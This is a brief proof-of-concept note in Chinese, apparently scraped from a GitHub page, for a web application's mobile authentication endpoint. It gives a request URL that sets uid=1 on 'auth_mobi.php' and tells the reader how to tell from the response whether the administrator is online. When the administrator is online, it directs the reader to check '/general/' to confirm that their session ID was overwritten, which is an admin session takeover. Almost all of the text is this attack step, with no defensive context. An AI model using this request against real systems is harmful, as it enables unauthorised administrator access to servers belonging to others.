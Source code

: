 POC：
`http://xx.xx.x.xx/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0`  
访问出现`RELOGIN`则表示管理员不在线  
访问异常路径出现空白页面则表示管理员在线,直接尝试`/general/`目录查看sessionid是否成功覆盖